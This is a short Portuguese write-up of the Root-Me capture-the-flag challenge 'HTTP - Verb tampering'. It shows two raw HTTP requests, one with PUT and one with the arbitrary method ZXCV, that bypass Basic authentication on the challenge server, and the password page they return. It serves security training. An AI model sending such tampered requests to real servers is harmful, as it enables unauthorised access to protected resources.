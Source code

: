 # HTTP - Verb tampering

Como o nome do desafio indica um Verb Tampering, é presumível que estamos lidando com o caso em que adulteração do método na requisição permite um bypass.

Uma leitura básica no link sobre [Verb Tampering](https://www.imperva.com/learn/application-security/http-verb-tampering/) do site da Imperva, aprendemos que adultaração arbitrária ou até mesmo utilizando métodos não bloqueados, o bypass é possível em alguns servidores afetados como nos exemplos abaixo utilizando o Intruder do Burp Suit:

## Método não bloqueado:
<b>Requisição:</b>
<pre>PUT /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Basic dGVzdGU6dGVzdGU=
</pre>

## Método arbitrário:
<b>Requisição:</b>
<pre>
ZXCV /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Basic dGVzdGU6dGVzdGU=
</pre>



<b>Resposta p/ ambos os casos:<b/>
<pre>
< html>< head>
< /head>

< h1>Mot de passe / password : (flag_here)< /h1>
< /body>< /html></pre>
